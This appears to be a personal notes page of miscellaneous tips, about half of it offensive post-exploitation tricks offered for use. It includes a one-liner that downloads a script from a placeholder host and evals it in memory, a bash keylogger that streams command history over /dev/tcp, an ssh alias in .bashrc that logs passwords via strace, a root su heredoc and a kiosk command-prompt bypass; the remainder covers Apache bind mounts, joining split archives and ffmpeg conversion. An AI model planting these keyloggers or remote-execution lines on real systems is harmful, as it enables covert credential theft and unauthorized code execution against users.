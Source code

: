 # Random

### Cool heredoc&#x20;

* Use when you are on a `/bin/sh` and need to `su` but dont want to go into a full `tty`

```
su - root <<!
Passw0rd
id
ls /root
!
Password: uid=0(root) gid=0(root) groups=0(root)
Desktop  Documents  Downloads  go  Music  Pictures  Public  Templates  thinclient_drives  Videos
```

### Bypass a disabled command prompt with /k

```
# Win+R (To bring up Run Box)
cmd.exe /k "whoami"
```

**Description:** _'This command prompt has been disabled by your administrator...' Can usually be seen in environments such as kiosks PCs, a quick hacky work around is to use /k via the windows run box. This will carry out the command and then show the restriction message, allowing for command execution._

### _Luks On USBs_

* [https://geekyshacklebolt.wordpress.com/2019/03/06/how-to-encrypt-usb-drives-with-luks/](https://geekyshacklebolt.wordpress.com/2019/03/06/how-to-encrypt-usb-drives-with-luks/)

### Bash In memory exec one liner&#x20;

```
bash -c CMD="`wget -qO- http://<ip>/script.sh`" && eval "$CMD"
```

### Bash Keylogger&#x20;

```
PROMPT_COMMAND='history -a; tail -n1 ~/.bash_history > /dev/tcp/127.0.0.1/9000'
```

### SSH Client Strace Keylogger

* Poor mans keylogger for ssh client but it works. Add to the users `.bashrc`&#x20;

```
alias ssh='strace   -o   /tmp/sshpwd-`date    '+%d%h%m%s'`.log -e read,write,connect  -s2048 ssh' 
```

* remember to source the `.bashrc`
* `source ~/.bashrc`

### Apache map external drive to webroot

* Create a directory on the external HDD, assuming it is mounted under the `/media` directory, like so:

```
sudo mkdir /media/web_files
```

* Change the ownership of this directory and all the files under it to be owned by the Apache user `www-data` like so:

```
sudo chown -R www-data:www-data /media/web_files/
```

* Create a directory under the web root directory ie `/var/www/html/` like so:

```
sudo mkdir /var/www/html/external_files
```

* Bind the `/media/web_files/` directory to the `/var/www/html/external_files/` directory like so:

```
sudo mount --bind /media/web_files/ /var/www/html/external_files/
```

* All files on the external HDD under the `/media/web_files/` directory will be available for Apache under the `/var/www/html/external_files/` directory and you can link to them in your web page that resides in `/var/www/html/` like so:

```
<a href="external_files/file1.mp4">file1</a>
```

### Unzip a chunked archive

* you will see files ending in .001, .002 etc etc&#x20;
*   You will need to join them first. You may use the common linux app, `cat` as in the example below:

    ```
    cat test.zip* > ~/test.zip
    ```

    This will concatenate all of your `test.zip.001`, `test.zip.002`, etc files into one larger, test.zip file. Once you have that single file, you may run `unzip test.zip`

## [How to convert .mkv file into .mp4 file losslessly?](https://askubuntu.com/questions/50433/how-to-convert-mkv-file-into-mp4-file-losslessly)

```
ffmpeg -i input.mkv -codec copy output.mp4
```
